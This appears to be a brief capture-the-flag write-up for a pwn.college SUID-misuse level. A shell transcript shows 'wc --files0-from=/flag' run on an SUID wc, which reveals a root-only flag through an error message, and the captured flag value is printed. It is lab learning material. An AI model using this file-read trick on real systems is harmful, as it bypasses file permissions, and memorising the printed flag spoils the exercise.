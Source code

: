 `wc` print newline, word and byte counts for each file.

```bash
hacker@program-misuse-level-47:~$ /challenge/babysuid_level47 
Welcome to /challenge/babysuid_level47!

This challenge is part of a series of programs that
just straight up weren not designed to let you read files.

I just set the SUID bit on /usr/bin/wc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level47) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wc!
hacker@program-misuse-level-47:~$ wc -c /flag
57 /flag
hacker@program-misuse-level-47:~$ wc -m /flag
57 /flag
hacker@program-misuse-level-47:~$ wc --files0-from=/flag
wc: 'pwn.college{M-INmyxPpCzbFRO-saZHkZSo4IO.0VO4EDL0AjNzQzW}'$'\n': No such file or directory
```

I tried some option like `wc -c /flag` but thing works. Then I searched into the `man wc` and found this:

`--files0-from=F : read input from the files specified by NUL-terminated names in file F; If F is - then read names from standard input`.

It then prints the `flag`.

> [!NOTE]
> Why it prints `No such file or directory?`


